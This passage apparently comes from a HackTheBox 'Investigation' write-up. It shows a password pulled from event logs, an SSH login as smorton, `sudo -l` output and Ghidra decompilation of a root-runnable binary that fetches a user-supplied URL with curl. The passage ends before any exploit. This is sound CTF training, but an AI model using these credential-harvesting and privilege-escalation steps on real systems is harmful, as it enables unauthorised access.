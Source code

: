 That password is my ticket inside, now only to find who uses it. I do another search for TargetUserName and find that smorton was the next target username to be logged. So I tried it and: 

```
516341:      "TargetUserName": "Def@ultf0r3nz!csPa$$",
516979:      "TargetUserName": "smorton",
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Investigation]
└──╼ $ssh smorton@eforenzics.htb
smorton@investigation:~$ cat user.txt
370a75d548a04f------------------
```

<h1>Root</h1>

<h2>Binary</h2>

```bash
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

I spin up a python server on the machine and grab that binary for investigation with ghidra. 

```C
{
  __uid_t _Var1;
  int iVar2;
  FILE *__stream;
  undefined8 uVar3;
  char *__s;
  char *__s_00;
  
  if (param_1 != 3) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _Var1 = getuid();
  if (_Var1 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
  if (iVar2 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Running... ");
  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  uVar3 = curl_easy_init();
  curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(uVar3,0x2711,__stream);
  curl_easy_setopt(uVar3,0x2d,1);
  iVar2 = curl_easy_perform(uVar3);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
    __s = (char *)malloc((long)iVar2 + 1);
    snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
```
